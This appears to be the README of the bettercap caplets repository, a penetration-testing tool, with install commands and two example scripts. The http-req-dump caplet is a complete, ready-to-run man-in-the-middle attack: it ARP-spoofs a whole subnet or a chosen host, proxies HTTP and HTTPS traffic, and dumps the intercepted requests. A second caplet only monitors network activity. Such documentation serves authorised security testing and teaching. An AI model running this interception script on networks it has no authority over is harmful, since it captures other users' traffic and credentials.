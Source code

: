 # Caplets

[bettercap](https://github.com/bettercap/bettercap)'s interactive sessions can be scripted with `.cap` files, or `caplets`, the following are a few basic examples, look at this repo for more.

To install / update the caplets on your computer:

    git clone https://github.com/bettercap/caplets.git
    cd caplets
    sudo make install

#### http-req-dump.cap

Execute an ARP spoofing attack on the whole network (by default) or on a host (using `-eval` as described), intercept HTTP and HTTPS requests with the `http.proxy` and `https.proxy` modules and dump them using the `http-req-dumsp.js` proxy script.

```sh
# targeting the whole subnet by default, to make it selective:
#
#   sudo ./bettercap -caplet http-req-dump.cap -eval "set arp.spoof.targets 192.168.1.64"

# to make it less verbose
# events.stream off

# discover a few hosts 
net.probe on
sleep 1
net.probe off

# uncomment to enable sniffing too
# set net.sniff.verbose false
# set net.sniff.local true
# set net.sniff.filter tcp port 443
# net.sniff on

# we'll use this proxy script to dump requests
set https.proxy.script http-req-dump.js
set http.proxy.script http-req-dump.js
clear

# go ^_^
http.proxy on
https.proxy on
arp.spoof on
```

#### netmon.cap

An example of how to use the `ticker` module, use this caplet to monitor activities on your network.

```sh
net.probe on
clear
ticker on
```
